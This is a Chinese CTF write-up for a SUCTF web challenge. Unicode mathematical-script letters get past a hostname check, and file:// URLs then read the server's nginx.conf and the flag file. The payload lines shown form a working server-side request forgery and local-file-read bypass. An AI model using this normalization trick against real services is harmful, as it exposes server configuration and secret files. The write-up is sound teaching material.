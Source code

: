 ![[Pasted image 20221218131056.png|500]]

---
首页长这样
![[Pasted image 20221218140730.png|700]]
```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta http-equiv="X-UA-Compatible" content="ie=edge">
    <title>Document</title>
</head>
<body>
    <form method="GET" action="[getUrl](view-source:http://8ff217ff-a7da-485a-a779-5fc0748bcc96.node4.buuoj.cn:81/getUrl)">
        URL:<input type="text" name="url"/>
        <input type="submit" value="Submit"/>
    </form>

    <code>
        
        @app.route('/getUrl', methods=['GET', 'POST'])
def getUrl():
    url = request.args.get("url")
    host = parse.urlparse(url).hostname
    if host == 'suctf.cc':
        return "我扌 your problem? 111"
    parts = list(urlsplit(url))
    host = parts[1]
    if host == 'suctf.cc':
        return "我扌 your problem? 222 " + host
    newhost = []
    for h in host.split('.'):
        newhost.append(h.encode('idna').decode('utf-8'))
    parts[1] = '.'.join(newhost)
    #去掉 url 中的空格
    finalUrl = urlunsplit(parts).split(' ')[0]
    host = parse.urlparse(finalUrl).hostname
    if host == 'suctf.cc':
        return urllib.request.urlopen(finalUrl).read()
    else:
        return "我扌 your problem? 333"
    </code>
    <!-- Dont worry about the suctf.cc. Go on! -->
    <!-- Do you know the nginx? -->
</body>
</html>
```
字符是好东西（喜
上[数学字母数字符号](https://zh.wikipedia.org/zh-hans/%E6%95%B0%E5%AD%A6%E5%AD%97%E6%AF%8D%E6%95%B0%E5%AD%97%E7%AC%A6%E5%8F%B7)，更有多种变体任您选择
```python
url='http://𝓼𝓾𝓬𝓽𝓯.𝓬𝓬'
```
![[Pasted image 20221218142130.png|700]]
标题和注释明示我们和`nginx`有关，尝试访问`/usr/local/nginx/conf/nginx.conf`
```python
url='file://𝓼𝓾𝓬𝓽𝓯.𝓬𝓬/usr/local/nginx/conf/nginx.conf'
```

```nginx
server {
    listen 80;
    location / {
        try_files $uri @app;
    }
    location @app {
        include uwsgi_params;
        uwsgi_pass unix:///tmp/uwsgi.sock;
    }
    location /static {
        alias /app/static;
    }
    # location /flag {
    #     alias /usr/fffffflag;
    # }
}
```

```python
url='file://𝓼𝓾𝓬𝓽𝓯.𝓬𝓬/usr/fffffflag'
```

![[Pasted image 20221218144842.png]]

#Web #python #nginx #字符 